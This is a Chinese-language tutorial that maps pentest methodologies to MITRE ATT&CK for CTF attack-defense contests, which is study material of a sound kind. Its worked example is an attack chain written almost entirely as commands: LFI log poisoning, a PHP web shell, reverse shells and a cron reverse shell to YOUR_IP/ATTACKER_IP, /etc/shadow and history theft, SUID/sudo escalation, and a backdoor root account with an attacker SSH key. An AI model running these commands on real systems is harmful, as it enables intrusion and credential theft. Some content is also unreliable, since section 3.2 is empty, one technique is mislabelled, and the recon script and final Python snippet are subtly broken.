

# 渗透测试方法论与MITRE ATT&CK框架映射

## 1. 概述

渗透测试方法论是指导安全测试活动的结构化框架，在CTF竞赛（尤其是Attack-Defense模式）中，系统化的方法论能够帮助队伍高效分配有限的时间与人力资源。本节将主流的渗透测试标准（PTES、OSSTMM、NIST SP 800-115）与MITRE ATT&CK框架进行映射，构建面向CTF场景的实战知识体系。

MITRE ATT&CK（Adversarial Tactics, Techniques, and Common Knowledge）是一个全球可访问的知识库，描述了攻击者在网络中的行为模式。它将攻击生命周期划分为14个战术阶段（Tactics），每个阶段下包含若干具体技术（Techniques）。在断网离线场景下，ATT&CK框架可作为"攻击思维模型"引导测试者不遗漏关键攻击面。

## 2. 核心原理

### 2.1 经典渗透测试方法论

**PTES（渗透测试执行标准）七大阶段：**

```
1. 前期交互 (Pre-Engagement)
2. 情报收集 (Intelligence Gathering)
3. 威胁建模 (Threat Modeling)
4. 漏洞分析 (Vulnerability Analysis)
5. 漏洞利用 (Exploitation)
6. 后渗透 (Post-Exploitation)
7. 报告 (Reporting)
```

在CTF Attack-Defense模式中，前三个阶段通常被压缩或跳过（因为目标是已知的比赛环境），重点集中在阶段4-6。

**OSSTMM（开源安全测试方法手册）** 侧重于量化安全测试的可度量性，引入了RAV（实际攻击向量）的概念，在CTF中应用较少但其中关于信道安全测试的章节对网络层攻击有指导意义。

**NIST SP 800-115** 提供了技术安全测试的四个阶段：
- 规划 (Planning)
- 发现 (Discovery)
- 攻击 (Attack)
- 报告 (Reporting)

### 2.2 Cyber Kill Chain与ATT&CK的对应关系

洛克希德-马丁的Cyber Kill Chain七个阶段：
- 侦察 (Reconnaissance) → ATT&CK Reconnaissance
- 武器化 (Weaponization) → ATT&CK Resource Development
- 投递 (Delivery) → ATT&CK Initial Access
- 利用 (Exploitation) → ATT&CK Execution
- 安装 (Installation) → ATT&CK Persistence / Privilege Escalation
- C2 (Command & Control) → ATT&CK Command & Control
- 目标行动 (Actions on Objectives) → ATT&CK Exfiltration / Impact

### 2.3 MITRE ATT&CK 14个战术阶段（企业矩阵）

| 战术ID | 战术名称 | 中文含义 | CTF相关性 |
|-------|---------|---------|----------|
| TA0043 | Reconnaissance | 侦察 | 极高（信息收集） |
| TA0042 | Resource Development | 资源开发 | 低（CTF中通常预置） |
| TA0001 | Initial Access | 初始访问 | 极高（入口点） |
| TA0002 | Execution | 执行 | 极高（命令执行） |
| TA0003 | Persistence | 持久化 | 高（A/D防御） |
| TA0004 | Privilege Escalation | 权限提升 | 极高（提权） |
| TA0005 | Defense Evasion | 防御规避 | 高（免杀/绕过） |
| TA0006 | Credential Access | 凭证访问 | 极高（密码获取） |
| TA0007 | Discovery | 发现 | 极高（内网信息收集） |
| TA0008 | Lateral Movement | 横向移动 | 极高（内网渗透） |
| TA0009 | Collection | 收集 | 中（数据收集） |
| TA0011 | Command & Control | 命令与控制 | 高（C2通道） |
| TA0010 | Exfiltration | 数据渗出 | 中（Flag提取） |
| TA0040 | Impact | 影响 | 中（破坏/篡改） |

## 3. CTF Attack-Defense模式下的方法论适配

### 3.1 A/D模式特殊约束

在CTF Attack-Defense模式中，与传统渗透测试有几个关键差异：

**时间压力：** 一场A/D比赛通常持续8-24小时，需要快速决策。
**同时攻防：** 队伍必须在攻击其他队伍的同时防御自己的服务。
**计分驱动：** 每个攻击成功的Flag和每个防御轮次的得分直接决定排名。
**资源限制：** 带宽、计算资源、人力都有上限。

### 3.2 A/D模式推荐工作流



## 4. 关键技巧与实践

### 4.1 ATT&CK技术速查卡（CTF高频技术TOP20）

**初始访问 (TA0001)：**
- T1190 - 利用面向公众的应用（Web漏洞入侵）
- T1133 - 利用外部远程服务（SSH/RDP弱口令）
- T1078 - 有效账户（默认凭证利用）

**执行 (TA0002)：**
- T1059 - 命令和脚本解释器（Bash/PowerShell/CMD执行）
- T1053 - 计划任务/作业（Cron持久化/触发）
- T1203 - 利用客户端执行（XSS/文件上传RCE）
- T1059.001 - PowerShell执行

**持久化 (TA0003)：**
- T1053.003 - Cron作业持久化
- T1505.003 - Web Shell
- T1098 - 账户操纵（添加用户/SSH密钥）
- T1547.001 - 注册表Run键（Windows启动项）

**权限提升 (TA0004)：**
- T1068 - 利用漏洞提权（内核漏洞/SUID/Sudo）
- T1134 - 访问令牌操纵
- T1548.002 - 绕过UAC

**防御规避 (TA0005)：**
- T1027 - 混淆文件或信息
- T1070 - 痕迹清除
- T1036 - 伪装
- T1140 - 解码/解密文件

**凭证访问 (TA0006)：**
- T1003 - 操作系统凭证转储（mimikatz/LSAM）
- T1552 - 不安全的凭证文件（.env/.git/config/.bash_history）
- T1110 - 暴力破解（Hydra/Hashcat）
- T1555 - 密码管理器凭证

**发现 (TA0007)：**
- T1046 - 网络服务扫描
- T1082 - 系统信息发现
- T1007 - 系统服务发现
- T1083 - 文件和目录发现

**横向移动 (TA0008)：**
- T1021.002 - SMB/Windows管理共享
- T1021.004 - SSH横向移动
- T1550.002 - 哈希传递 (Pass-the-Hash)
- T1550.003 - 票据传递 (Pass-the-Ticket)

### 4.2 离线环境下的ATT&CK应用

在断网CTF场景中，无法直接访问ATT&CK网站的在线矩阵，建议：

1. **本地化ATT&CK数据：**
```bash
# 克隆ATT&CK仓库到本地（赛前准备）
git clone https://github.com/mitre/cti.git
cd cti/enterprise-attack
ls attack-pattern/  # 所有技术JSON文件

# 提取技术名称与描述
for f in attack-pattern/*.json; do
    jq -r '.objects[] | "\(.external_references[0].external_id) | \(.name) | \(.description | .[:100])"' "$f"
done > attck_quickref.txt
```

2. **CSV格式本地索引：**
创建 `attck_cheatsheet.csv`：
```
Tactic,Technique_ID,Name,Quick_Command
Initial_Access,T1190,Exploit-Public-Facing-App,"curl target:80/vuln.php?cmd=id"
Execution,T1059.001,PowerShell,"powershell -enc <base64>"
Privilege_Escalation,T1068,Exploitation-for-Privilege-Escalation,"linux-exploit-suggester.sh"
Credential_Access,T1003.001,LSASS-Memory,"mimikatz.exe sekurlsa::logonpasswords"
Lateral_Movement,T1021.002,SMB-Admin-Shares,"psexec.py DOMAIN/user:pass@target"
```

### 4.3 A/D竞赛基础设施搭建脚本

```bash
#!/bin/bash
# A/D竞赛初始化脚本
TEAM_NAME="Team_X"
GAME_NET="10.0.0.0/24"
TARGET_FILE="targets.txt"

# 第一阶段：信息收集
echo "[*] Phase 1: Reconnaissance"
masscan -p1-65535 --rate=10000 $GAME_NET -oJ masscan_scan.json
nmap -sV -sC -O -p- $GAME_NET -oA nmap_full

# 第二阶段：漏洞分析
echo "[*] Phase 2: Vulnerability Analysis"
# 使用本地nmap脚本库
nmap --script=vuln --script-timeout=30s $GAME_NET -oA nmap_vuln

# 第三阶段：目标优先级排序
echo "[*] Phase 3: Target Prioritization"
# 按服务类型分组
grep -h "open" nmap_full.gnmap | awk '{print $2, $4, $5}' > services.txt
# 提取Web服务（优先攻击面）
grep -E ":80|:443|:8080|:8000" services.txt > web_targets.txt
# 提取已知漏洞服务
grep -E ":21|:22|:445|:3306|:6379|:27017" services.txt > known_service_targets.txt

echo "[+] Setup complete. Targets captured in targets.txt"
```

## 5. 实战示例

### 5.1 场景：CTF A/D - 利用ATT&CK战术链攻击一台Linux Web服务器

**初始条件：** 目标 `10.10.10.5`，已知Web应用在8000端口。

**步骤1：侦察 (TA0043 Reconnaissance - T1595 Active Scanning)**
```bash
# 全端口发现
rustscan -a 10.10.10.5 --range 1-65535 -b 4000 -- -sV

# Web目录爆破
gobuster dir -u http://10.10.10.5:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,bak -t 50

# 参数模糊测试
ffuf -u http://10.10.10.5:8000/admin.php?FUZZ=1 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

**步骤2：初始访问 (TA0001 Initial Access - T1190)**
```bash
# 发现admin.php存在文件包含漏洞
# 通过日志投毒获取RCE
curl "http://10.10.10.5:8000/admin.php?file=/var/log/apache2/access.log&cmd=id"
# 写入Web Shell
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://10.10.10.5:8000/"

# 获取反向Shell
curl "http://10.10.10.5:8000/admin.php?file=/var/log/apache2/access.log&cmd=bash -c 'bash -i >%26 /dev/tcp/YOUR_IP/4444 0>%261'"
```

**步骤3：发现 (TA0007 Discovery - T1082)**
```bash
# 在Shell中执行
id  # 当前身份
uname -a  # 内核版本
cat /etc/os-release  # 发行版
netstat -tlnp  # 监听端口
ip addr  # 网络配置
cat /etc/hosts  # 内网映射
find / -perm -4000 -type f 2>/dev/null  # SUID文件
sudo -l  # sudo权限
cat /etc/crontab
ls -la /etc/cron*
```

**步骤4：凭证访问 (TA0006 Credential Access - T1552)**
```bash
# 搜索配置文件中的密码
grep -r "password" /var/www/html/ 2>/dev/null
cat .env 2>/dev/null
cat config.php 2>/dev/null
cat /etc/shadow 2>/dev/null

# 搜索数据库凭证
find . -name "*.sql" -o -name "*.sqlite" -o -name "*.db" 2>/dev/null
mysql -u root -prootpassword -e "SELECT * FROM mysql.user;"

# 提取历史命令
cat ~/.bash_history
cat /root/.bash_history
```

**步骤5：权限提升 (TA0004 Privilege Escalation - T1068)**
```bash
# SUID利用检查
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
# 发现 /usr/bin/find 有SUID位
/usr/bin/find . -exec /bin/bash -p \; -quit  # 获得root shell

# 或者使用sudo漏洞
sudo -l  # 显示可无密码执行 (ALL) NOPASSWD: /usr/bin/vim
sudo vim -c ':!/bin/bash'  # Vim逃逸提权
```

**步骤6：持久化 (TA0003 Persistence - T1053.003 + T1505.003)**
```bash
# 添加root用户
useradd -ou 0 -g 0 backdoor_user
echo "backdoor_user:password123" | chpasswd

# SSH密钥持久化
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1... attacker_key" >> /root/.ssh/authorized_keys

# Cron反向Shell持久化
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1'") | crontab -

# Web Shell持久化
echo '<?php system($_GET["c"]); ?>' > /var/www/html/shell.php
```

**步骤7：横向移动 (TA0008 Lateral Movement - T1021.004)**
```bash
# SSH密钥横向移动
# 复制发现的SSH密钥
for host in $(cat /etc/hosts | grep -v localhost | awk '{print $2}'); do
    ssh -o StrictHostKeyChecking=no -i ~/.ssh/id_rsa root@$host "id" 2>/dev/null
done

# SSH -R反向隧道代理内网
ssh -R 0.0.0.0:8888:internal_host:80 attacker@YOUR_SERVER
```

### 5.2 ATT&CK战术映射总结表

对于上述攻击链，ATT&CK技术映射：

| 阶段 | ATT&CK ID | 技术名称 | 使用的具体操作 |
|------|-----------|---------|--------------|
| 侦察 | T1595 | Active Scanning | rustscan/Nmap扫描 |
| 侦察 | T1592.002 | Gather Victim Host Information | 服务版本识别 |
| 初始访问 | T1190 | Exploit Public-Facing Application | LFI+日志投毒 |
| 执行 | T1059.004 | Unix Shell | Bash反向Shell |
| 发现 | T1082 | System Information Discovery | uname/cat /etc/os-release |
| 发现 | T1007 | System Service Discovery | netstat -tlnp |
| 发现 | T1548.001 | SUID Enumeration | find / -perm -4000 |
| 凭证访问 | T1552.001 | Credentials in Files | grep -r password |
| 凭证访问 | T1003.008 | /etc/shadow | cat /etc/shadow |
| 提权 | T1548.001 | Setuid and Setgid | find SUID提权 |
| 持久化 | T1136.001 | Local Account | useradd backdoor |
| 持久化 | T1098.004 | SSH Authorized Keys | SSH key写入 |
| 持久化 | T1053.003 | Cron | cron反向Shell |
| 横向移动 | T1021.004 | SSH | SSH密钥横向 |

## 6. 常见误区与注意事项

### 6.1 CTF中的方法论误区

**误区1：直接上手攻击，跳过侦察阶段。**
- 后果：遗漏关键服务或入口点，浪费exploit时间窗口。
- 纠正：即使是30分钟的Jeopardy模式，也要留出5-10分钟做完整侦察。

**误区2：过度依赖自动化工具。**
- 后果：触发WAF/IDS，被防守方发现并封禁IP。
- 纠正：理解工具原理，能手写简单PoC。先手动确认再自动化。

**误区3：忽视防御（A/D模式）。**
- 后果：自己的服务被轻易攻破，Flag被竞争对手获取。
- 纠正：第一小时是"黄金防御窗口"——必须第一时间修改默认密码、修补已知漏洞、配置iptables。

**误区4：攻击后不清理痕迹。**
- 后果：Web Shell被其他队伍发现并利用，或者被主办方判定违规。
- 纠正：使用唯一的文件名/路径，避免在/tmp下留下明显文件名，使用加密通信。

### 6.2 框架局限性

- ATT&CK框架对Linux环境的覆盖不如Windows详细，CTF中Linux攻击面需要额外补充知识。
- 框架侧重于企业网络环境，CTF中的二进制漏洞利用（pwn）和逆向工程（rev）不在框架内。
- 离线使用时，简化的本地参考文档即可满足需求，无需完整框架。

## 7. 相关知识点

- **CVE/NVD映射：** 将具体漏洞CVE编号映射到ATT&CK技术ID
- **Atomic Red Team：** https://github.com/redcanaryco/atomic-red-team — 最小单位的ATT&CK测试用例
- **CTI (Cyber Threat Intelligence)：** 威胁情报与ATT&CK的关系
- **Defense Evasion技术矩阵：** T1000-T1999系列
- **CTF中的OPSEC：** Operational Security在A/D比赛中的实践
- **Sigma规则：** 与ATT&CK技术对应的检测规则
- **Pwning方法论：** 二进制漏洞利用专用方法论（不同于渗透测试）
- **Web安全测试指南 (OWASP Testing Guide)：** Web特定方法论补充

## 8. 离线工具准备清单

在CTF断网环境下预先准备以下本地资源：

```
~/ctf-offline-kit/
├── ATT&CK/
│   ├── enterprise-attack-15.1.json     # 完整企业矩阵JSON
│   ├── attck_cheatsheet.md             # 中文速查卡
│   └── technique_index.csv             # 技术ID索引
├── checklists/
│   ├── linux_priv_esc_checklist.md     # Linux提权检查清单
│   ├── windows_priv_esc_checklist.md   # Windows提权检查清单
│   └── AD_attack_checklist.md          # 域攻击检查清单
├── payloads/
│   ├── reverse_shells.txt              # 各类反向Shell
│   ├── php_webshells/                  # PHP Web Shell
│   └── powercat.ps1                    # PowerShell Netcat
└── scripts/
    ├── recon.sh                        # 侦察自动化脚本
    └── priv_esc_enum.sh                # 提权枚举脚本
```

使用以下命令导出本地ATT&CK数据：
```bash
# 下载最新ATT&CK STIX数据
wget https://raw.githubusercontent.com/mitre/cti/master/enterprise-attack/enterprise-attack.json

# 提取关键技术列表
python3 << 'EOF'
import json
with open('enterprise-attack.json', 'r') as f:
    data = json.load(f)
for obj in data['objects']:
    if obj['type'] == 'attack-pattern':
        for ref in obj.get('external_references', []):
            if 'external_id' in ref and ref['external_id'].startswith('T'):
                print(f"{ref['external_id']}|{obj['name']}|{', '.join(obj.get('kill_chain_phases', [{}])[0].get('phase_name', 'N/A') if obj.get('kill_chain_phases') else 'N/A')}")
EOF
```
